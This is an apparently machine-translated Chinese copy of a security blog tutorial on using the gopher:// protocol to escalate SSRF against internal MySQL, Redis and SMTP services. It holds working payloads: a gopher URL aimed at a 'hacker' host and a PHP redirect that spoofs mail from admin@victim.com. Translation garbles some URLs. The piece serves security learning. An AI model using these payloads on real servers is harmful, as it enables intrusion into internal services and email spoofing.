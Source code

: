 # Gopher 如何在逐步升级的 SSRFs 中工作

> 原文：<https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630?source=collection_archive---------0----------------------->

![](img/b8c83f82893017206be611f25b100690.png)

来源:谷歌

我们都知道 HTTP 和 HTTPS，但有多少人见过野生的地鼠呢？我们经常用它来绕过和升级服务器端的请求伪造。好吧，信不信由你，Gopher 是在 1991 年作为互联网上第一个运行在 TCP/IP 网络之上的数据/文件访问协议而被构想出来的。所以，这个博客是基于理解和它在野外的使用:)

在我们了解 Gopher 如何工作之前，理解它实际上是什么以及它与 HTTP 和 HTTPS 有什么不同是非常重要的。Gopher 是一种应用层协议，能够提取和查看存储在远程 Web 服务器上的 Web 文档。当它出现时，它是为在 IP 网络中分发、搜索和检索文档而设计的。Gopher 的设计功能和外观都很像一个可挂载的只读全局，任何可以在 [**CD-ROM**](https://en.wikipedia.org/wiki/CD-ROM) 上完成的数据文件都可以在 Gopher 上完成。一个地鼠系统由一系列**层级超链接菜单**组成。菜单项和标题的选择由服务器管理员控制。如果你想对它进行深度阅读，可以在这里找到:- [***Gopher 协议***](https://en.wikipedia.org/wiki/Gopher_(protocol)) ***。***

现在，让我们看看它是如何工作的。Gopher 类似于另一种互联网协议，[文件传输协议](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (FTP)，因为它通过 TCP/IP 互联网(如互联网)远程访问文件。但是，虽然一个 FTP 站点只存在于一台服务器上，并且可以有许多不同的 FTP 站点，但实际上只有一个分布式 Gopher 文件系统。这是它的主要区别。Gopher 文件系统是世界上所有 Gopher 服务器的单一集合。每个 Gopher 服务器都可以作为分层分布式文件系统的根。为了访问文件或文档，使用 Gopher 客户机的人键入可访问的 Gopher 服务器的 URL。查看下图以更好地理解它:

![](img/be1232f73919334e8df98d357fed7cd2.png)

来源:谷歌

可以实现多个数据包的整合传输，然后由 gopher 服务器将多个数据包捆绑发送给客户端。这是它的菜单响应。例如，使用 gopher 协议的 curl 命令可以操作 mysql 数据库或完成对 redis 的攻击。gopher 协议使用 tcp 进行可靠的连接。Gopher 可访问的信息作为文件存储在 **Gopher 服务器**上。它以类似于计算机(如 Windows PC 或 UNIX 工作站)的文件系统树的分层方式进行组织。正如文件系统由包含文件和子目录(子文件夹)的顶级目录(或文件夹)组成一样，Gopher 服务器将信息呈现为包含资源(如文件)的顶级目录和/或包含附加资源的子目录。通过在彼此的资源层次结构中提及不同服务器上的资源，可以使用将它们链接在一起。也有可能创建“虚拟”资源，就像它们是文件一样，例如允许搜索 Gopher 服务器的程序。gopher url 格式是:

**地鼠://:/**

它是用于表示 url 资源类型的单个字符。在常见的安全测试中发现，不管这个字符是什么，都无所谓，只要有就行。可以理解为 http 协议的前身或者简化版。**虽然它很古老，但现在许多图书馆都支持 gopher 协议，而且 gopher 协议非常强大。**

现在，我们将看到 Gopher 如何方便地利用 SSRFs。你一定见过 SSRF 的有效载荷是这样的:

**地鼠://127 . 0 . 0 . 1:1337/_ SSRF % 0a 测试！**

使用这个协议，您可以指定您希望监听器**发送**的 **ip、端口和字节**。然后，你基本上可以利用一个 SSRF 来**与任何 TCP 服务器**通信(显然你需要先知道如何与服务对话)。gopher 协议支持发送 get 和 post 请求:可以先截取 GET 请求包和 POST 请求包，形成符合 gopher 协议的请求。gopher 协议是 ssrf 应用中最强大的协议。

这里有一个例子，如果应用程序以某种方式使用 Mysql 数据库，你很有可能在 Gopher 的帮助下利用 SSRF。**原因？** MySQL 数据库用户认证采用挑战/响应模式。服务器生成挑战号并将其发送给客户端。客户端用挑战号加密密码，并返回相应的结果。然后服务器检查结果是否与预期的相同，从而完成用户认证过程。登录需要服务器发送的加密密码，但是当数据库用户密码为空时，加密密码也为空。客户端发送给服务器的认证包是相对固定的。这样就不需要交互了，可以通过 gopher 协议发送:)

有了它，**我们可以使用 gopher://与 MySQL 数据库**进行通信。因此，一旦你做了一些侦察，并意识到你有一个 Mysql，你可以绑定不同有效载荷的 Gopher 来监听。一些例子是:

*   **带 HTTP 的地鼠:**

```
gopher://yourproxyserver:8080/_GET http://hacker:80>/x HTTP/1.1%0A%0Agopher://yourproxyserver:8080/_POST%20http://hacker:80/x%20HTTP/1.1%0ACookie:%20hacked%0A%0Ayou+are+hacked
```

*   **带 SMTP 的地鼠:**

```
<?phpheader(“Location: gopher://yoursite:1337/_SSRF%0ATest!”);?>
```

**在**上查询:

https://anysite.com/?q = http://hacker . com/redirect . PHP。

*   **你也可以像这样使用它，它也会发送一封邮件:**

```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );        $payload = implode('%0A', $commands);        header('Location: gopher://0:25/_'.$payload);
?>
```

这些是互联网上的一些例子，这完全取决于你如何利用它。无论如何，Gopher 在利用 SSRFs 方面确实很方便，在阅读本文之后，如果您看到类似的案例，您可能会想进一步利用它。github 上有一个很棒的工具，可以帮助你生成 Gopher 链接，在这种情况下非常有用。我更喜欢手工测试，但是你可以随时检查什么更适合你。下面是链接: [**Gopherus**](https://github.com/tarunkant/Gopherus) 。

我希望你能从这个博客中得到一些新的东西，因为几个星期以来我一直在考虑写点什么。如果你喜欢这个博客，分享它，让人们知道一些新的东西。这将是这一个，我有更多的博客想法，正在努力:)如果你对这个博客或我的任何博客有任何疑问或建议，请随时在 [**Twitter**](http://twitter.com/manasH4rsh) 上 ping 我。我真的很感谢你们给我的建议:)再见！

注意安全，祝黑客愉快:)

再见，❤